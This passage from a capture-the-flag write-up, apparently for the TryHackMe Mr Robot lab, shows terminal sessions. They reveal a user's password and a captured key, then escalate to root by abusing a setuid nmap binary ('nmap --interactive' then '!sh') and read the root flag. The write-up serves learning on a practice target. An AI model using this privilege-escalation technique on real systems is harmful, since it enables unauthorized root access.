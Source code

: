 ```console
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/opt/bitnami/apps/wordpress/htdocs$ cd ~
cd ~
robot@linux:~$ ls
robot@linux:~$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

We can also use `ssh -t`.

### Using THM's `nmap` clue we search for nmap

And we find `nmap` on the system. But notably, it has `root` privilege.

`nmap` can be used to spawn an _interactive shell system_, [check out GTFObins](https://gtfobins.github.io/gtfobins/nmap/).

```shell
daemon@linux:/usr/local/bin$ ./nmap 

Starting nmap 3.81 ( http://www.insecure.org/nmap/ ) at 2020-09-18 21:43 UTC
Failed to resolve given hostname/IP: interactive.  Note that you can't use '/mask' AND '[1-4,7,100-]' style IP ranges
WARNING: No targets were specified, so 0 hosts scanned.
Nmap finished: 0 IP addresses (0 hosts up) scanned in 0.183 seconds

daemon@linux:/usr/local/bin$ ls -lah
ls -lah
total 504K
drwxr-xr-x  2 root root 4.0K Nov 13  2015 .
drwxr-xr-x 10 root root 4.0K Jun 24  2015 ..
-rwsr-xr-x  1 root root 493K Nov 13  2015 nmap

daemon@linux:/usr/local/bin$ ./nmap --interactive
./nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# ls /root     
ls /root
firstboot_done key-3-of-3.txt
whoami
root
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt     
```